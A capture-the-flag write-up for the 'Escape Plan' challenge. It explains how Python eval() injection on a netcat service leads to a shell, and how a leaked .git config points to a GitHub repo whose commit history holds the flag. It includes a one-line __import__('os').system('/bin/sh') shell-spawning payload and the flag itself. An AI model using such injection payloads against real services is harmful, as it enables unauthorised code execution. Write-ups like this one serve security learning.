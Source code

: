 ```yaml
---
layout: post
title: "Escape Plan"
author: "vishalananth"
tags: ['Miscellaneous']
---
```


I found a script that solves ciphers, they say it's pretty secure!

nc chall.csivit.com 30419

## Solution

We try out a few commands and we find out that whatever we give as input is getting evaluated in python
using the eval() command. This quite easy to exploit and we try spawning a shell with 

```
__builtins__.__dict__['__import__']('os').__dict__['system']('/bin/sh')
```

We get a shell without root privileges, this is quite handy but when we try to read the contents of .git folder, it asks us for root privleges. So I tried some common privilege escalation technqiues but nothing worked. So randomly I tried to print everything in the ```.git``` folder. 

```
cat *
fix: message
ref: refs/heads/master
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://github.com/alias-rahil/crypto-cli
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
	remote = origin
	merge = refs/heads/master
Unnamed repository; edit this file 'description' to name the repository.
cat: hooks: Is a directory
DIRC_d�5Mh�_d�5Mh��������
^�~˦ʸ+@�OA+I[7
              s4	crypto.py^��ۂ!^��ۂ!�������4��XEZ
����X���)g�start.shTREE2 0
y�2���d�:
%�:����-J�b9�=�]u��'�J�+8��c�cat: info: Is a directory
cat: logs: Is a directory
cat: objects: Is a directory
# pack-refs with: peeled fully-peeled sorted 
2bd46f9367f9f5fd9deaf06bf1b8c4fea8c9686e refs/remotes/origin/master
cat: refs: Is a directory
```

We get a github url: [https://github.com/alias-rahil/crypto-cli](https://github.com/alias-rahil/crypto-cli), visiting the url and viewing the commit history gives us the flag.

## Flag
```
csictf{2077m4y32_h45_35c4p3d}
```
